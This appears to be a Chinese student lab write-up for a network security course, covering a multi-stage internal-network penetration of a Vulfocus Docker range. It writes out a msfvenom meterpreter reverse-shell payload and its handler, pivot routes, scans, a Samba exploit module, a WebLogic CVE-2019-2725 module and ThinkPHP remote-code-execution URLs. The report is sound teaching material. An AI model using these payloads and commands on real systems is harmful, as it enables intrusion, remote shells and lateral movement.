







# 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

* docker

* vulficus

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
<br><br>
2. 上传文件（要求完成入口靶标的提权行为）
<br>

3. 在metasploit里设置如下并`run -j`等待

```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```

注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机上进入入口靶标的容器，在靶机里运行meterpreter.elf
<br>

6. 返回到攻击者主机，可以看到连接成功
<br>

7. 升级shell
`sessions -u <会话编号>`
<br>

8. 进入新开启的会话，查看route，arp， ipconfig
`sessions -i <会话编号>`
<br>
<br>
<br>

9. 设置pivot路由
<br>

10. 扫描
```bash
search portscan
use 0
set rhosts <ip>
set ports <ports>
set threads 10
run
```
<br>
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
<br>

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
<br>
<br>
`cat /etc/proxychains4.conf` 
确认有以下配置
<br>
并且配置浏览器代理,方便直接从浏览器访问网页
<br>

### 步骤二 攻击新发现的靶机

#### nginx

nginx
1. 设置代理curl扫描到的IP
`proxychains curl http://192.170.84.2`
<br>

2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
<br>

#### samba

1. 搜索可用攻击模块并选择合适的模块，设置合适的options，进行攻击
```bash
search semba type:exploit
use exploit/linux/samba/is_know_pipname
# 设置options，可以使用show options查看需要设置的内容
# 执行攻击
run
```

2. get flag
<br>

### 步骤三 设立pivot路由并发现靶标4-5

1. 查看第一层两台主机的ip

<br>
可以看到192.170.84.4这一台机器有双网卡

2. 升级对应的shell
<br>

3. 设置pivot路由
<br>

### 步骤四 攻击靶标4-5

#### weblogic

```bash
search cve-2019-2725
use 0
set Proxies socks5:127.0.0.1:1080
# 设置靶机IP等
# 例：
# set rhosts 192.169.85.3
# 设置完成以后再进行攻击
run
```
会话窗口开启以后，进入shell，输入ls /tmp


#### apache

### 步骤五 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡

升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`
<br>
<br>
扫描发现终点靶标
<br>

### 步骤六 攻击终点靶标

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页


2. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
<br>
3. 执行系统命令`ls /tmp`

`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
<br>

## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
[教学视频【网络安全(2023) 综合实验】](https://www.bilibili.com/video/BV1p3411x7da?vd_source=e1f7434c660a15bfac556224e06c742a)
[教学视频【第六章 网络与系统渗透】](https://www.bilibili.com/video/BV1qV41127Xv?p=10&vd_source=e1f7434c660a15bfac556224e06c742a)
